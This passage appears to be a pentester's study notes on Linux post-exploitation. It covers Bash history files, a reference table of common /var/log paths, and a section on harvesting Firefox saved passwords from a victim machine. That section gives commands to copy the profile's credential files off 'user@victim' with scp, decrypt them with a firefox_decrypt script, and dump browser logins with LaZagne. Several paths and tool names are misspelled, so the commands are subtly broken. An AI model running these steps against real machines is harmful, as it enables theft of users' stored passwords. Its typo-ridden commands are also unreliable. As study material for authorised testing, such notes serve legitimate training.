 In the history of the commands entered on Linux distributions that use Bash as a standard shell, we find the associated files in `.bash_history`. Nevertheless, other files like `.bashrc` or `.bash_profile` can contain important information.
## LOGS

Many different logs exist on the system. These can vary depending on the applications installed, but here are some of the most important ones:

|**File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|


## FIREFOX STORED CREDS

prepare: with scpy
```
*cert key* logins.json
```

```
scp user@victim:/home/<user>/.mozilia/firefox/<try pres tab> /defaults/profile/<file>
```

decrypt with firefox_decypt.py
```
python3 ~/tools/pillaging_scripts/linux/firefix_decrypt.py ff_folder
```
![[Pasted image 20250624124200.png]]

Alternatively, `LaZagne` can also return results if the user has used the supported browser.

```shell-session
python3 laZagne.py browsers
```
